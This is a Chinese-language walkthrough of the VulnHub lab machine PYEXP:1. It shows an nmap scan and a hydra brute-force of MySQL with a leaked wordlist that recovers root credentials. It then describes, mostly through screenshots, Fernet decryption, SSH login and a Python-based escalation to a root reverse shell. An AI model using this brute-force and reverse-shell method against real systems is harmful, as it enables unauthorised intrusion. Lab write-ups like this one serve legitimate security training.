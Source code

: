```yaml
---

title: Vulnhub 534 PYEXP-1
date: 2020-08-11
---
```


考点：hydra,python

靶机链接：<https://www.vulnhub.com/entry/pyexp-1,534/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| PYEXP: 1 | 10.0.2.27 |


## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.110
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, SupportsTransactions, IgnoreSigpipes, ODBCClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, DontAllowDatabaseTableColumn, FoundRows, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: BwQo[X([tV0.5]X#A`>V
|_  Auth Plugin Name: mysql_native_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

```

这就尴尬了，只有ssh和mysql

### 漏洞发现

先爆破mysql吧

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.27 mysql    
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.27:3306/
[3306][mysql] host: 10.0.2.27   login: root   password: prettywoman

```

![1](https://static.iihack.com/vulnhub/534/1.jpg)

使用在线[fernet算法解密](https://asecuritysite.com/encryption/ferdecode)

![2](https://static.iihack.com/vulnhub/534/2.jpg)

获得用户名密码

## 获得权限

使用获得的用户名密码登录成功

![3](https://static.iihack.com/vulnhub/534/3.jpg)

## 提权

看来利用点是在exp.py这里了

![4](https://static.iihack.com/vulnhub/534/4.jpg)

查看代码，构造python利用

![5](https://static.iihack.com/vulnhub/534/5.jpg)

成功接收root权限反弹shell
